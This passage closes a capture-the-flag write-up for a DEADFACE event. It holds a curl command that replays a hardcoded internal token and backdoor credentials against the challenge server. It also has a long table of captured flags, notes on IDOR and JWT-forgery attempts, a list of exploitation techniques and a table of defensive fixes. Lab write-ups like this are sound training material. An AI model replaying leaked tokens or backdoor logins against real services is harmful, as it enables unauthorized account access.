`SecureVaultActivity`'s static `VAULT_CONTENT` field.

> 🚩 **Flag:** `deadface{Ur_N0t_A110wEd_h3r3}`

### Inside Man — 20 pts

`ApiClient` ships a hardcoded internal token + base URL, attached via an `X-Internal-Token` interceptor; `LoginActivity` hardcodes a backdoor account.

```bash
cat smali/com/demonne/financial/api/ApiClient.smali
curl -s -X POST http://dmf.dctf.io:8081/api/auth/login \
  -H "Content-Type: application/json" \
  -H "X-Internal-Token: zqJRlVwBA9Xm2lE5EPjgbj/4rOxlkYZgDtkdP7jV80rZgLFrlnOEn+VAu31YKQrR" \
  -d '{"email":"audit@demonne-financial.local","password":"demonnefinancial"}'
# {"user":{"message":"deadface{l3FT_b3Hind!}"}}   <- that message is a red herring
```

> 🚩 **Flag:** `deadface{zqJRlVwBA9Xm2lE5EPjgbj/4rOxlkYZgDtkdP7jV80rZgLFrlnOEn+VAu31YKQrR}`

### No Holding Back — 210 pts

**Prompt:** an access-control flaw lets DEADFACE pull bank data for effectively any customer; DEADFACE left a flag behind as proof. Solve uses the same decompiled APK as the rest of this series.

Our own investigation ruled out two paths before the team closed it: an `account_id` IDOR returned `200`/`[]` across the whole 1–100,000 range (no `403`, so the lack of an ownership check is real, but no *populated* account turned up in that sweep); an `alg:none` JWT forgery was correctly rejected (`Unauthorized`, signature validated). `getProfile()` (`api/auth/me`) was flagged as a defined-but-never-called endpoint worth another look.

> 🚩 **Status:** solved by the team — confirmed solved per the CTFd dashboard. Flag not recorded in these notes.

---

## Flag summary

| # | Part | Challenge | Pts | Flag | Status |
|---|------|-----------|-----|------|--------|
| 1 | I | Medical — maintenance token | — | `deadface{d3fault_cr3ds_n3v3r_ch4ng3d}` | SOLVED |
| 2 | I | Medical — HDMI diag leak | — | `deadface{hdm1_l34ks_th3_wh0l3_p4t13nt}` | SOLVED |
| 3 | I | Medical — calibration forgery | — | `deadface{c4l1br4t10n_f0rg3ry_h4rms_l1v3s}` | SOLVED |
| 4 | I | Medical — BLE telemetry | — | flag submitted, not recorded in these notes | SOLVED |
| 5 | II | Hostbusters (foothold) | 10 | `deadface{f00th0ld_0n_ch4r0n}` | SOLVED |
| 6 | II | Looking Back | 30 | `deadface{h1st0ry_r3m3mb3rs_4ll}` | SOLVED |
| 7 | II | Git Good | 100 | `deadface{git_l0g_sp1lls_s3cr3ts}` | SOLVED |
| 8 | II | Lilith | 250 | `deadface{sud0_f1nd_4_w4y_1n}` | SOLVED |
| 9 | II | Dangerous Capability | 300 | `deadface{c4p_s3tu1d_cuts_d33p}`* | SOLVED |
| 10 | III | The Mark | 350 | `deadface{Santos_Staudenmaier}` | SOLVED |
| 11 | III | Death | 100 | `deadface{Travis}` | SOLVED |
| 12 | IV | Who Goes There? | — | `deadface{nkessler}` | SOLVED |
| 13 | IV | The Workstation in the Middle | — | `deadface{DMF-WS11-042}` | SOLVED |
| 14 | IV | Mistyped Hostname | — | `deadface{dmf-fiels-01}` | SOLVED 🟡 |
| 15 | V | File Dump 01 | — | `deadface{gh0st404}` | SOLVED |
| 16 | VI | Headshots | — | `deadface{b00m_h34Dsh0TTT}` | SOLVED |
| 17 | VI | Exfiltration | — | `deadface{timing-is-everything}` | SOLVED |
| 18 | VI | Printer Tracking Dots / Conduct Unbecoming | 75 | `deadface{NVU-PRINT-17}` | SOLVED |
| 19 | VI | Keep Digging | — | `deadface{D1g_d0wN_D33p!}` | SOLVED 🟡 |
| 20 | VI | DOOM (bonus) | 25 | `deadface{let5_play_d00m}`** | SOLVED |
| 21 | VII | Hail Caesar | 5 | `deadface{Fetch}` | SOLVED |
| 22 | VII | Infrequent Emojis | 50 | `deadface{please_try_out_my_new_standard}` | SOLVED |
| 23 | VII | Decode-dle | 25 | `deadface{716}` | SOLVED |
| 24 | VII | Second Shift | 90 | `deadface{ctr_nonce_reuse_breaks_confidentiality}` | SOLVED |
| 25 | VII | ChessKey | — | `deadface{cH3ckM8_ch3s5_cryPt0}` | SOLVED |
| 26 | VIII | Twilight Zone Transfer | — | `deadface{dns_zone_transfer}` | SOLVED |
| 27 | VIII | Return to Sender | — | `deadface{http_exfil_sneaky_business}` | SOLVED |
| 28 | VIII | A Pirate's Life for Me: Part 1 | — | `deadface{X-M4rk5_th3_sp0t_I_gu355}` | SOLVED 🟡 |
| 29 | VIII | Speak Friend (movie board / Spook-A-Thon) | 80 | `deadface{serve_me_up_a_flag}` | SOLVED |
| 30 | VIII | Speak Friend (BROWER blog) | — | `deadface{we-411-h4v3-the-s4me-1nt3rnet-d0-w3-n0t}` | SOLVED |
| 31 | IX | Classic SQLi (Doctor Appointment) | 26 | `deadface{typical_and_classic}` | SOLVED |
| 32 | IX | Patient IDOR (Real Pain in the Prostate) | 50 | `deadface{hipaa_exposure_is_bad}` | SOLVED |
| 33 | IX | Do People Still Fax in 2026? | — | `deadface{someone_should_report_this}` | SOLVED |
| 34 | IX | Become an Admin → SSRF | — | `deadface{oh_you_shouldnt_be_here}` | SOLVED |
| 35 | X | Chatty Cathy | 15 | `deadface{y0u_m3ddling_k!ds}` | SOLVED |
| 36 | X | Car Crash | 50 | `deadface{08_10_1961}` | SOLVED |
| 37 | X | Alice and Bob Would Like a Word | 75 | flag submitted, not recorded in these notes | SOLVED |
| 38 | XI | Cereal Killer 01 | — | `deadface{You-Vill-Eat-Ze-Bugz-Und-You-Vill-Be-Happy!!!}` | SOLVED |
| 39 | XI | Cereal Killer 02 | — | `deadface{N0rdics-R3ally-like-Frank3nb3rry-cuz-bro-is-tall-like-they-are!}` | SOLVED |
| 40 | XI | Spooky Cereals / the Greys | — | `deadface{Before_Consenting_to_Med_Exam_Ascertain_Destination_of_Finger!}` | SOLVED |
| 41 | XI | re02 crackme | — | `deadface{x0r_1s_not_encryption}` | SOLVED |
| 42 | XI | Keypad Oracle | — | `deadface{your-pin-is-valid}` | SOLVED |
| 43 | XII | Mobile intro (APK) | — | `deadface{ez-mobile-to-start}` | SOLVED |
| 44 | XII | Aurora iOS — Info Leaks | — | `deadface{mara-voss-1988-04-17}` | SOLVED |
| 45 | XII | Aurora iOS — Patient ID | — | `deadface{847261}` | SOLVED |
| 46 | XII | Aurora iOS — Medication | — | `deadface{Candesartan}` | SOLVED |
| 47 | XII | Aurora iOS — Gateway | — | `deadface{gw-westlake-int-03}` | SOLVED |
| 48 | XIII | Admitted Under Another Name | 15 | `deadface{AH-0044719}` | SOLVED |
| 49 | XIII | Schedule of Concern | 20 | `deadface{9}` | SOLVED |
| 50 | XIII | The Attending | 40 | `deadface{mreyes}` | SOLVED |
| 51 | XIII | Prying Eyes | 55 | `deadface{rborden}` | SOLVED |
| 52 | XIII | The Original Reading | 70 | `deadface{2.3}` | SOLVED |
| 53 | XIII | Heavy Hand | 100 | `deadface{BR2938471}` | SOLVED |
| 54 | XIII | After the Lock | 150 | `deadface{VELT-0137}` | SOLVED |
| 55 | XIII | Ghost in the Registry | 240 | `deadface{AH-0090001}` | SOLVED |
| 56 | XIV | Vibes / You Wouldn't Git It | 125 | `deadface{A11_Th1s_Pr0mpt1ng_G3ts_M3_N0wh3r3!}` | SOLVED |
| 57 | XIV | Phishing landing | — | `deadface{http://demonne-secure-portal.net/login?ref=vpn_auth&token=df4e91bc}` | SOLVED |
| 58 | XV | The Crypt | 100 | ret2win, printed at runtime | SOLVED |
| 59 | XV | Skeleton Key | 125 | ROP arg-controlled win, printed at runtime | SOLVED |
| 60 | XV | Cursed Mirror | 150 | ROP → `.data` → `system`, submitted remote | SOLVED |
| 61 | XV | Cursed Library | 235 | ret2libc double leak, printed at runtime | SOLVED |
| 62 | XV | Necromancy | 300 | `execveat` pivot, submitted remote | SOLVED |
| 63 | VIII | Bad Guys Be Bad | 350 | DNS exfil Base32→XOR, printed at runtime | SOLVED |
| 64 | VIII | Don't Leave Me Hanging | 500 | `deadface{Pr355_0n3_f0r_D34df4c3}` | SOLVED |
| 65 | VIII | Data Go Brrrrr | 25 | ICMP exfil, printed at runtime | SOLVED |
| 66 | IV | Hidden in Plain Task | 75 | `deadface{WindowsTelemetryCheck}` | SOLVED |
| 67 | IV | Cache Money | 150 | `deadface{C:\ProgramData\WindowsCache\telemetry.ps1}` | SOLVED |
| 68 | IV | Borrowed Script | 100 | `deadface{d34th@10.77.10.66}` | SOLVED |
| 69 | IV | False Telemetry | 250 | `deadface{167.172.132.224_4815_30}` | SOLVED |
| 70 | IV | Uninvited Guest | 25 | `deadface{annual_report.pdf}` | SOLVED |
| 71 | IV | Crown Jewels | 75 | `deadface{167.172.132.224_4815}` | SOLVED |
| 72 | XIII | Two Places at Once | 450 | `deadface{<compromised_username>}` | SOLVED |
| 73 | XIII | Too Good to be True | 310 | `deadface{VELT-0148}` | SOLVED |
| 74 | XVI | Diagnosis | 100 | `deadface{flaG_ManIfesT3d}` | SOLVED |
| 75 | XVI | Hard Kept Secrets | 20 | `deadface{Ur_N0t_A110wEd_h3r3}` | SOLVED |
| 76 | XVI | Inside Man | 20 | `deadface{zqJRlVwBA9Xm2lE5EPjgbj/4rOxlkYZgDtkdP7jV80rZgLFrlnOEn+VAu31YKQrR}` | SOLVED |
| 77 | XVI | No Holding Back | 210 | solved by the team, flag not in these notes | SOLVED |
| 78 | VI | Art Heist: The Forgery | 25 | `deadface{L4MIA_SIGNS_HER_WORK}` | SOLVED |
| 79 | III | Ghost of Squares Past | 150 | `deadface{1733-1742-1815-1733-gordon}` | SOLVED |
| 80 | III | Get That Bag | 350 | — | OPEN |

**95 of 96 official challenges solved.** The only one still open is **Get That Bag** (Part III), on the salary cipher. (The 80 rows above are this write-up's own tracked items, not a 1:1 listing of every official scoreboard entry — some rows here represent one challenge documented from two angles, as noted inline; see the full 96-challenge official list for the exact category breakdown.)

\* Dangerous Capability's flag varies by session (box resets each time); `deadface{c4p_s3tu1d_pwn3d}` was captured in an earlier run — see Part II.
\** DOOM's flag was transcribed differently across sources (`let5_play_d00m` vs `Lets_Play_Doom`); direct re-inspection of the zoomed wall text in Part VI supports the leetspeak reading given here.

---

## Defensive takeaways

| Pattern | Where we saw it | Fix |
|---|---|---|
| Implicit USB/HID trust (BadUSB) | Medical device debug hotkey (Part I) | Disable debug hotkeys in production builds; enforce USB device allow-listing (e.g. USBGuard). |
| Long-lived default credential | Medical device maintenance token (Part I) | Force credential rotation on first boot; never expose a bearer token in client-visible HTML/JS. |
| Diagnostic mode bypasses app-layer redaction | HDMI diag overlay (Part I) | Enforce redaction at the data layer; gate diagnostic levels behind a signed maintenance session. |
| Hash with a hard-coded salt used as a "signature" | Calibration file integrity check (Part I) | Use real asymmetric signing (e.g. Ed25519) or an HMAC with a secret never shipped on the device. |
| Secrets typed as literal shell commands / left in shell history | Looking Back (Part II) | Never type secrets as bare commands; clear history by policy; prefer secret managers over chpasswd. |
| Secrets committed then "removed" in a later commit | Git Good (Part II) | Treat any committed secret as burned regardless of later commits; rotate and purge history (BFG/filter-repo). |
| sudo rule reachable through a writable cron script | Lilith (Part II) | Sudo rules must point at root-owned, non-writable binaries only; never a script a cron job (or its owner) can edit. |
| Linux capability granted to a general-purpose/interactive binary | Dangerous Capability (Part II) | Never grant cap_setuid/cap_setgid to a tool that executes arbitrary input; use a minimal, purpose-built setuid helper instead. |
| Data served by an API that the UI never renders | Death, The Mark, Get That Bag (Part III) | Treat every field an API returns as disclosed, not just what the frontend displays; strip server-only fields before the response leaves the backend. |
| Dominant forensic artifact left unredacted in a memory/disk image | Who Goes There?, Workstation in the Middle, Hidden in Plain Task, Cache Money, Borrowed Script, False Telemetry (all Part IV) | Clear or rotate credentials and hostnames before imaging for support/incident response; don't assume a memory dump is "just for us." |
| Document/file metadata exposes the real author behind a handle | File Dump 01 (Part V) | Strip Office/EXIF author, last-modified-by, and computer-name metadata before external distribution. |
| Secret stashed in image/file metadata | Headshots, Art Heist (Part VI); Aurora Patient ID (Part XII) | Strip EXIF/metadata before any external-facing publication pipeline. |
| Real forensic technique (printer tracking dots) mistaken for a quirky image | Printer Tracking Dots / Conduct Unbecoming (Part VI) | Be aware that color laser output can carry a Machine Identification Code; redact or use dot-suppressed printers for sensitive documents. |
| Steganography tooling assumes baseline JPEG; progressive JPEGs slip through | Keep Digging (Part VI) | Don't rely on a single stego toolchain; verify "clean" scans with a decode-identical byte-diff rather than trusting tool silence. |
| AES-CTR nonce/keystream reuse | Second Shift (Part VII) | Never reuse a nonce with the same key in CTR/GCM mode; derive a fresh nonce per message or use a misuse-resistant mode. |
| Misconfigured DNS allows unauthenticated AXFR | Twilight Zone Transfer (Part VIII) | Restrict zone transfers to known secondary servers only; monitor for AXFR requests from unexpected sources. |
| Exfiltration disguised as ordinary HTTP to a look-alike domain | Return to Sender, Bad Guys Be Bad (Part VIII); Crown Jewels, False Telemetry (Part IV) | Egress-filter and inspect POST bodies/headers to unfamiliar domains, not just hostnames that "look" legitimate. |
| Custom non-standard client fingerprints an attacker regardless of UA spoofing | A Pirate's Life, Speak Friend blog (Part VIII) | TLS/JA3 fingerprinting catches UA spoofing that header-only inspection misses. |
| SQL injection in an auth endpoint | Classic SQLi (Part IX) | Parameterized queries / prepared statements everywhere; never string-concatenate user input into SQL. |
| IDOR/BOLA — server trusts a client-supplied department/tenant id | Patient IDOR, Do People Still Fax (Part IX); No Holding Back's own IDOR investigation (Part XVI) | Re-derive the authorization scope from the server-side session/token on every request, never from the body. |
| Mass assignment lets a client set privileged fields on its own profile | Become an Admin → SSRF (Part IX) | Explicitly allow-list the fields a profile-update endpoint may change; never deserialize the whole request body into a privileged model. |
| Stale/overshared session cookie leaked via an open NFS export | Speak Friend movie board (Part VIII) | Never export shares world-readable; short-lived, rotated session tokens; disable debug commands in prod. |
| Hardcoded crypto material / "security by obscurity" in a reversible binary | Cereal Killer 01/02, re02, Keypad Oracle (Part XI); The Crypt, Skeleton Key, Cursed Mirror, Cursed Library, Necromancy (Part XV) | Anything derivable by reversing a shipped binary is not a secret; keys and flags must not live client-side. |
| Hardcoded flag/secret in unused but shippable app code | Mobile intro (Part XII); Diagnosis, Hard Kept Secrets, Inside Man (Part XVI) | Dead code still ships in the binary — audit for secrets in all code paths, not just reachable ones. |
| Lookalike domain + VPN-urgency phishing lure | Phishing landing (Part XIV) | User security awareness training on lookalike domains; DNS/email filtering for newly registered, confusable domains. |
| Impossible-simultaneous-activity pattern reveals account compromise | Two Places at Once (Part XIII) | Alert on same-account, same-timestamp access from two distinct workstations/IPs — it's structurally impossible for one legitimate session. |
| Statistical outlier detection surfaces falsified data | Too Good to be True, The Original Reading (both Part XIII) | Flag z-score outliers (>3σ) on clinical/financial endpoints automatically rather than relying on manual chart review. |
| A decode layer that "looks" like plaintext may itself be ciphertext | Get That Bag (Part III) | When an obfuscation/stego decode produces structured-looking but non-readable output, treat it as an intermediate layer, not a dead end — don't stop the pipeline at the first decode that "looks done." |

---

## Appendix — tooling & recurring patterns

**Tooling used across the event:** `exiftool`, `strings -el`, `binwalk`, `zsteg`, `steghide`/`stegseek`, `tshark`/Wireshark, `nmap`/`showmount`/NFS client, `jadx`, `androguard`, radare2, Ghidra (headless), `sqlite3`, `plutil`, `jq`, `pdftotext`, Python (`PIL`, `struct`, `pycryptodome`/`hashlib`), `john`/`hashcat`, `curl`, `openssl`, `websockets`, Burp Suite, `getcap`/`sudo -l`, `7z`, `volatility3`, `imagemagick`/`convert`, `pwntools` (`ELF`, `ROP`, `remote`, `process`, `p64`), `pwn cyclic`, `checksec`, `objdump`/`nm`/`readelf`, `apktool`, `scapy`/`pylibsrtp`/`audioop`/`multimon-ng` (VoIP/SRTP/DTMF), `dd` (raw memory carving).

**Recurring DEADFACE patterns worth remembering:**
- **"Read what the server returns"** — flags hidden in DoomScroll `/api/.../meta` and in HTTP response headers, not the rendered UI.
- **Metadata over pixels** — EXIF/XMP/PNG-Comment fields, document author/computer-name fields, and timestamp-ordered payloads, show up far more often than classic LSB image steganography.
- **Decoys are everywhere** — placeholder flags in prompts, honeypot posts, "I guess" winks, the reversing series' stated decoy flags, AI-targeted honeypot DoomScroll posts (e.g. post 274). Verify, don't submit blind.
- **Custom/leetspeak casing matters** — `gh0st404` not `GHOST404`; keep mixed case exactly as rendered.
- **Theme-driven cracking** — passwords are spooky-cereal names (`cookiecrisp`, `booberry`, Franken Berry) and LOTR words (`mellon`).
- **Disposable infrastructure** — the Hostbusters box resets per session, so exact binary names/paths can differ between write-ups even when the underlying bug class and target user are identical.
- **One memory image, many boxes** — a single forensic artifact (`memory.raw`, an APK, a leaked SQL dump) backs several differently-scored challenges; always re-check what else the same evidence answers before moving on.
- **A decode layer isn't always the last layer** — base-3 whitespace stego, Base32+XOR, and other custom encodings sometimes wrap a second cipher; non-English output after a "successful" decode is a sign to look for another layer, not a dead end.
